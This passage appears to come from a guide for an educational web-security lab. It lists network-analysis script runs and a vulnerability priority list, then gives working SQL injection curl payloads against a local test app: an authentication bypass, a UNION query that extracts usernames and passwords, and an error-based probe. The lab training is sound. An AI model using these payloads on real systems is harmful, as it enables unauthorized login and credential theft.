 ### Network Analysis Integration

```bash
# Baseline traffic analysis
python samples/network-scenarios/basic_network_activity.py 120 &
python src/analyzer/network_cli.py --capture-traffic --duration 130 --educational

# Suspicious pattern detection
python samples/network-scenarios/suspicious_traffic_generator.py 120 &
python src/analyzer/network_cli.py --monitor-connections --duration 130 --educational
```

### Risk Prioritization Matrix

```bash
# High Priority Targets (Critical + Exploitable)
# 1. SQL Injection in login forms
# 2. XSS in user input fields
# 3. Debug mode enabled
# 4. Weak authentication mechanisms
# 5. Unvalidated redirects

# Medium Priority Targets
# 6. Missing security headers
# 7. Information disclosure
# 8. Session management issues
# 9. Input validation problems
# 10. Configuration weaknesses
```

## ⚔️ Controlled Exploitation

### SQL Injection Testing

```bash
# Basic authentication bypass
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' OR '1'='1&password=anything" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Union-based injection
curl -X POST "http://localhost:5000/search" \
  -d "query=' UNION SELECT username,password FROM users--" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Error-based injection
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' AND (SELECT COUNT(*) FROM users)>0--&password=test" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

### Cross-Site Scripting (XSS)
